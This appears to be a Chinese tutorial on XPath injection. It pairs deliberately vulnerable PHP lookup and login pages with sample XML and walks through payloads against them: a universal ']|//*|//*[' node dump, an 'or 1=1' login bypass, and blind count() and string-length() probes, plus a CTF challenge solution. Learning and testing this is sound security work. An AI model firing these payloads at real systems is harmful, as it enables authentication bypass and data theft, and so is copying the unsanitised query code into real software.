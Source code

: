 # Xpath注入

这里学习一下xpath注入

```undefined
xpath其实是前端匹配树的内容 爬虫用的挺多的
```

 [XPATH注入学习 - 先知社区](https://xz.aliyun.com/t/7791) 

## 查询简单xpath注入

index.php

```php
<?php
if(file_exists('t3stt3st.xml')) {
$xml = simplexml_load_file('t3stt3st.xml');
$user=$_GET['user'];
$query="user/username[@name='".$user."']";
$ans = $xml->xpath($query);
foreach($ans as $x => $x_value)
{
echo "2";
echo $x.":  " . $x_value;
echo "<br />";
}
}
?>
```

t3stt3st.xml

```cobol
<?xml version="1.0" encoding="utf-8"?>
<root1>
<user>
<username name='user1'>user1</username>
<key>KEY:1</key>
<username name='user2'>user2</username>
<key>KEY:2</key>
<username name='user3'>user3</username>
<key>KEY:3</key>
<username name='user4'>user4</username>
<key>KEY:4</key>
<username name='user5'>user5</username>
<key>KEY:5</key>
<username name='user6'>user6</username>
<key>KEY:6</key>
<username name='user7'>user7</username>
<key>KEY:7</key>
<username name='user8'>user8</username>
<key>KEY:8</key>
<username name='user9'>user9</username>
<key>KEY:9</key>
</user>
<hctfadmin>
<username name='hctf1'>hctf</username>
<key>flag:hctf{Dd0g_fac3_t0_k3yboard233}</key>
</hctfadmin>
</root1>
```

首先传递最简单的

```cobol
http://127.0.0.1:3000/dir.php?user=user1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e34d037f02369040c150e89a7a238a66.png" alt="" style="max-height:669px; box-sizing:content-box;" />


可以发现获取到了内容

这里我们如果存在报错的话我们可以使用 '; 测试

```cobol
http://127.0.0.1:3000/dir.php?user=user1%27;
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/db3645f32348b3aca73018ea1dd67a0f.png" alt="" style="max-height:664px; box-sizing:content-box;" />


我们首先看看这个时候的注入内容

```perl
$query="user/username[@name='".$user."']";
 
 
$query="user/username[@name='user1';']";
```

然后我们开始测试

```cobol
127.0.0.1:3000/dir.php?user=user1' or '1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fbb8d080bdd3843b599fa0c878de5d74.png" alt="" style="max-height:672px; box-sizing:content-box;" />


发现就实现了注入

这里xpath中还存在一个万能钥匙

类似于 ' or '1'='1'# 的

```csharp
']|//*|//*['
```

```cobol
http://127.0.0.1:3000/dir.php?user=%27]|//*|//*[%27
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5a4001a38af2dd413de32b51713b8c62.png" alt="" style="max-height:716px; box-sizing:content-box;" />


发现所有的东西都出来了

这里的原理是

```cobol
 
 
$query="user/username[@name='']|//*|//*['']";
 
 
首先通过闭合[@name='']  
 
 
//* 这里不是注释哦 是查询所有的节点
 
//*[''] 这里是查询所有文本为空的节点 
 
然后通过 | 符号进行链接
 
这样就是一个查询全部节点的payload了
```

这里存在一个题目 PolarD&N的 注入

## PolarD&N的 注入

这道题就是直接构造

```cobol
http://8371c06a-96fa-4013-be20-c53a2fbfe512.www.polarctf.com:8090/?id=%27]|//*|//*[%27
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7d6c436b705b178ab72818be75c40338.png" alt="" style="max-height:445px; box-sizing:content-box;" />


这里有个问题就是如何知道是xpath注入 我认为应该是拼接做题经验，并且测试过sqlssti这些都无法注入

## xpath登入注入

login.php:

```cobol
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title></title>
</head>
<body>
<form method="POST">
username：
<input type="text" name="username">
</p>
password：
<input type="password" name="password">
</p>
<input type="submit" value="登录" name="submit">
</p>
</form>
</body>
</html>
<?php
if(file_exists('test.xml')){
$xml=simplexml_load_file('test.xml');
if($_POST['submit']){
$username=$_POST['username'];
$password=$_POST['password'];
$x_query="/accounts/user[username='{$username}' and password='{$password}']";
$result = $xml->xpath($x_query);
if(count($result)==0){
echo '登录失败';
}else{
echo "登录成功";
$login_user = $result[0]->username;
echo "you login as $login_user";
}
}
}
?>
```

test.xml

```cobol
<?xml version="1.0" encoding="UTF-8"?>
<accounts>
<user id="1">
<username>Twe1ve</username>
<email>admin@xx.com</email>
<accounttype>administrator</accounttype>
<password>P@ssword123</password>
</user>
<user id="2">
<username>test</username>
<email>tw@xx.com</email>
<accounttype>normal</accounttype>
<password>123456</password>
</user>
</accounts>
```

首先查看这里的注入语句

```php
$x_query="/accounts/user[username='{$username}' and password='{$password}']";
```

可以发现可以通过单引号注入

```php
$x_query="/accounts/user[username='1'or 1=1 or ''='' and password='{$password}']";
```

这样不就注入成功了

所以payload

```cobol
1'or 1=1 or ''='
```

## xpath盲注

首先我们需要探测是有多少个节点

```csharp
'or count(/)=1  or ''='  登入成功
 
'or count(/)=2  or ''='  登入失败
```

可以确定只有一个节点

然后就是判断节点的长度

```csharp
'or string-length(name(/*[1]))=8 or ''='  登入成功
 
'or string-length(name(/*[1]))=2 or ''='  登入失败
```

 [XPATH注入学习 - 先知社区](https://xz.aliyun.com/t/7791) 这里写的很详细了
